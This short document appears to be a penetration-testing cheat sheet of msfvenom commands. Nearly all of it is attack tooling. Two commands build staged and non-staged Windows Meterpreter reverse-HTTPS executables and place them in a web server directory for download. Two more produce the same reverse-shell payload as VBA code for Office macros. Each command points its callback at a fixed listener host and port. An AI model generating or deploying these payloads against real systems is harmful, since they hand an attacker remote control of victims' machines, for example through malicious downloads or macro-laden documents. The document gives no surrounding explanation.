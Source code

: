 ## Msfvenom Payloads
Staged & Non-staged payloads

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfnonstaged.exe
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```
Macro - VBA 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.201 LPORT=443 EXITFUNC=thread -f vbapplication
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.201 LPORT=443 EXITFUNC=thread -f vba
```

